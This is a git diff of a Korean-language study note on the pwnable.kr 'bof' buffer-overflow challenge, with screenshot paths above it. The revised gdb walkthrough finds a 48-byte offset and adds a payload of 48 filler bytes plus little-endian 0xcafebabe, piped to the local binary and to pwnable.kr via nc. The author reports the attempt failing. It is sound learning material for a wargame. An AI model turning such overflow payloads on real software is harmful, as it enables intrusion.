

02 ing...

Changed region(s): [[0.0, 0.0, 0.7273, 1.0]]

diff --git a/week6/02pwnable_bof.md b/week6/02pwnable_bof.md
@@ -226,9 +226,11 @@ gdb를 이용해 어셈블리 영역을 확인한다면...
 
 
 main은 이렇게
+
 ![disasMain](/img/02_disasMain.jpg)
 
 func함수는 이렇게
+
 ![disasFunc](/img/02_disasFunc.jpg)
 
 되어있는 것을 확인 가능하다. 그럼 key와 overflowme가 다루어지는 부분들을 보자... 
@@ -242,20 +244,27 @@ gets 함수가 call되는 지점이다.
 
     0x00401478 <+24>:    call   0x403ad0 <gets>
 
-보면 마치 gets함수로 받아와진 친구가 들어갈 자리라는 듯 주소가 하나 쨘 있지 않은가. 혹시 이게 overflowme 주소...? 물론 추측이다. 
 
-일단 킵. `0x403ad0`
+
+이 시점에서 함수들의 리턴값이 저장된다는... eax에 들어간 값을 보자. 
+
+![infoReg](/img/02_infoReg.jpg)
+
+
+gets함수의 리턴값, 즉 overflowme의 주소도 여기 저장된게 아닐까 라는 작은 소망을 품어보며 일단 킵. `0x61fee0`
 
 <br>
 
 
-이건 key가 `0xcafebabe`와 비교되고있는 coml문 부분이다. 
+이건 key가 `0xcafebabe`와 비교되고있는 cmp문 부분이다. 
 
-    0x0040147d <+29>:    cmpl   $0xcafebabe,0x8(%ebp)
 
-첫번째 operand는 어디서 많이 본 상수값, 두번째 operand는 0x8(%ebp)이다. 
+    0x0040147d <+29>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
 
-예상컨대 현시점 ebp 값에 0x8을 더한 것이 아닐까... 그니까 걔가 key가 아닐까 라는 작은 소망을 품어본다. 그럼 ebp값을 알아야겠다. 
+
+첫번째 operand는 ebp+0x8, 두번째 operand는 어디서 많이 본 상수값이다. 
+
+그니까 ebp+0x8가 key가 아닐까 라는 작은 소망을 품어본다. 그럼 ebp값을 알아야겠다. 
 
 
 레지스터들의 값을 확인해보자. 
@@ -276,33 +285,62 @@ gets 함수가 call되는 지점이다.
 
 그으러어며언... 
 
-아까 추정한 overflowme의 주소는 `0x403ad0`
+아까 추정한 overflowme의 주소는 `0x61fee0`
 
 그리고 방금 추정한 key의 주소는 `0x61ff10`
 
 더 높은 주소에 있는 key에서 overflowme를 빼보자... 
 
-    (gdb) p/d 0x61ff10 - 0x403ad0
-    $5 = 2212928
+    (gdb) p/d 0x61ff10 - 0x61fee0
+    $3 = 48
 
-사이의...ㄱㅓ리가... 2212928...?
-
-<br>
-
-이겠냐?
+사이의 거리가 48이다!! 
 
 <br>
 
-실패.
+
+그럼 48개의 dummy값과 key에 넣어줄....
+little endian방식의 0xcafebabe를 페이로드로 짜보자. 
+
+0xcafebabe는 10진수로 3405691582이다. key에 int로 담길테니까. 
+
+
+    `python -c "print 'x'*48 + '\xbe\xba\xfe\xca'"`
+
+
+
+그리고 이 친구를 oveflowme의 값으로 넣어줘 보자... 
+
+
+    (python -c "print 'x'*48 + '\xbe\xba\xfe\xca'";cat) | ./bof
+
+    (python -c "print 'x'*48 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
+
+왱ㅏㄴ대............. 
+
+왜안대냑구.... 
+
+<br>
+
+
+window 이슈인가 싶어서 리눅스환경에서도 해봤다. 
 
 
 
 
 
 
+    ┌[ccsss☮4664a647eaaa]-(~/aaa)
+    └> ./bof
+    overflow me : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx¾ºþÊ
+    Nah..
+    *** stack smashing detected ***: terminated
+    [1]    408 abort      ./bof
 
 
+에라이 안되네 
 
+임의로 컴파일링 한 게 문제인 듯...
 <br>
 <br>
 
@@ -326,7 +364,7 @@ gets 함수가 call되는 지점이다.
 <br>
 
 
-:(
+ㅜ-ㅠ
 
 
 
